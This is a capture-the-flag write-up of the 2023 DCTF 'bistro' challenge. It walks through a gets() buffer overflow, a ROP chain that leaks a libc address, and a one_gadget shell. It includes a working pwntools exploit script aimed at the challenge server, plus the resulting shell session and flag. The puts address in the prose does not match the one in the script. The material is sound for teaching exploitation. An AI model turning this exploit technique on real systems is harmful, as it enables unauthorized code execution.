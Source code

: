 # 2023 DCTF - bistro

We are provided with a single `restaurant` binary:
```
$ file restaurant 
restaurant: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cea7843fdb48a2960a3e5a489182d1b3de25f2f0, not stripped
```

The `restaurant` binary offers to select a meal from a menu and then prints out the selected value or, in case of "Custom dinner" prints "Wrong choice":
```
$ ./restaurant 
==============================
              MENU             
==============================
1. Chessburger...............2$
2. Hamburger.................3$
3. Custom dinner............10$
>> 3
Choose what you want to eat:
Wrong choice
```

Since the second version of the challenge called bistro-v2 provided also a libc shared object, we decided to bet that the same libc is used for both versions of the challenges and immediately create a solution that works for both challenges:
```
$ file libc-2.27.so 
libc-2.27.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=71f0f3074a929e519e85f6a5c03a7d1fd976bfe4, for GNU/Linux 3.2.0, stripped
```

The disassembly of the `restaurant` binary shows a buffer overflow vulnerability present inside `custom` function that is called once "Custom dinner" is selected from a list of options:
```
undefined8 custom(void)

{
  char local_78 [112];
  
  printf("Choose what you want to eat:");
  gets(local_78);
  gets(local_78);
  return 0;
}
```

Here is how it looks when interacting with the binary:
```
$ ./restaurant 
==============================
              MENU             
==============================
1. Chessburger...............2$
2. Hamburger.................3$
3. Custom dinner............10$
>> 3
Choose what you want to eat:AAAAAAAAAAAAAAAAAAAAAAAAAAeat:AAAAAAAAAAAAAAAAAAAAAAAAAAeat:AAAAAAAAAAAAAAAAAAAAAAAAAAeat:AAAAAAAAAAAAAAAAAAAAAAAAAAeat:AAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

In order to obtain a shell, we have decided to perform the following ROP chain:
- 0x4008a3 which is `pop rdi ; ret` gadget
- 0x601030 which is address of `gets@got.plt` that is popped to `rdi`
- 0x4006b0 which is the `puts` function

The initial ROP chain is basically a call to `puts(gets@got.plt)` that effectively leaks the gets address.

We use the address leak to calculate the libc base address which can be further used to redirect to a "one gadget". A "one gadget" is a single gadget ROP chain that performs an `execve("/bin/sh", NULL, NULL)` call inside libc.

In order to execute a "one gadget", we re-run the `custom` function at `0x40072a` and overflow to an address pointing to our "one gadget" to pop spawn a shell.


The exact "one gadget" used was determined via trial and error: if first one fails, we take another one until we hopefully pop a shell:
```
$ one_gadget libc-2.27.so 
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Here is how the attack vector looks inside of a script:
```python
from pwn import *

# libc from bistro-v2
LIBC_PATH = "./libc-2.27.so"

r = remote('35.198.135.192', 32327)
#r = gdb.debug("./restaurant", '''break *0x4008a1
#''')
r.recvuntil(b">> ")
r.sendline(b"3")
r.recvuntil(b"eat:")

payload  = b'A'*120
payload += p64(0x004008a3)        # pop rdi ; ret
payload += p64(0x00601030)        # plt
payload += p64(0x004005b0)        # puts
payload += p64(0x0040072a)        # back to roots

r.sendline(payload)
a = r.recvuntil(b"eat:")
g = a.split(b'\n')[0]
print(g)
gets_ptr = int.from_bytes(g, 'little')
print(gets_ptr)

l = ELF(LIBC_PATH)
l.address = gets_ptr - l.sym["gets"]

payload  = b'A'*120
payload += p64(l.address + 0x4f302)
r.sendline(payload)
r.interactive()
```

Successful execution renders the flag:
```
$ python3 xpl.py 
[+] Opening connection to 35.198.135.192 on port 32327: Done
b'\x90\xc1CX.\x7f'
139837026058640
[*] '/home/vm/Downloads/dctf/bistro/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ id
$ id
uid=1000(bv-arena) gid=3000 groups=3000,2000
$ ls
flag  restaurant  restaurant.c
$ cat flag
CTF{33be4238b68642a4c3f97d10cfa034764e0b6d9707d6970f581200e2b7bcbfc0}
$ 
```
